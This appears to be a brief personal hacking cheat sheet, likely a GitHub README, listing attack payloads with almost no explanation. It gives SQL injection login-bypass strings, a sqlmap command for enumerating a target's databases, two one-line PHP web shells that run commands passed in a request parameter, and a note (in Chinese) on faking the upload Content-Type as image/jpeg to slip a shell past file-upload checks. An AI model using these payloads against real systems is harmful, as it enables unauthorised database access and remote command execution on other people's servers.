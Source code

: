 # Hacktools

# SQLI
## Easy command
'OR 1=1-- <br>
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p your-parament --thread 10 --random-agent --batch --dbs


# XSS


# php file upload webshell

<?php system($_REQUEST["cmd"]);?> <br>
<?php echo shell_exec($_GET['cmd']);?> <br>

or <br>
將 Content-Type: application/x-php 換成 /image/jpeg

